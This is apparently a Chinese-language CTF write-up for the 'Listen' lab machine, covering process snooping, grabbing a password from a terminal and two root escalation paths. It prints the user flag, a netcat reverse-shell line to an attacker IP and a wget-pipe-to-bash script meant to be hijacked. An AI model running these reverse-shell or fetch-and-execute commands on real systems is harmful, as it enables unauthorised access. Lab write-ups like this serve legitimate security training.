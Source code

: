 猜测这个脚本多半会被某个进程执行

用Pspy64检测一下

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.006.png)

root用户会执行


```TypeScript
silence@listen:~$ ls /dev/pts -la
total 0
drwxr-xr-x  2 root    root      0 Nov  8 10:18 .
drwxr-xr-x 17 root    root   3180 Nov  8 10:18 ..
crw--w----  1 silence tty  136, 0 Nov  8 10:50 0
c---------  1 root    root   5, 2 Nov  8 10:18 ptmx
```
这里目前只有一个终端

我们需要多创建几个终端 使他达到4

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.007.png)

这里我们开了5个终端 

在第4个终端里面等待他给我们输出密码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.008.png)

获取到listen用户的密码

```TypeScript
listen@listen:~$ cat user.txt
HMVimlistening
```
提权root

这里有两种方法。

替换listen.sh法

listen.sh脚本处于我们silence的用户目录下

且我们是有权限删除他的

替换成我们想要的脚本

```TypeScript
echo 'nc -e /bin/bash/192.168.9.3 1234' > listen.sh
```
然后监听就可以返回root的shell了

修改host法

在listen用户下发现一个脚本

listentome.sh

```TypeScript
silence@listen:/home/listen$ cat listentome.sh 
wget -O - -q http://listen/ihearyou.sh | bash
```
他会获取一个ihearyou.sh并执行脚本
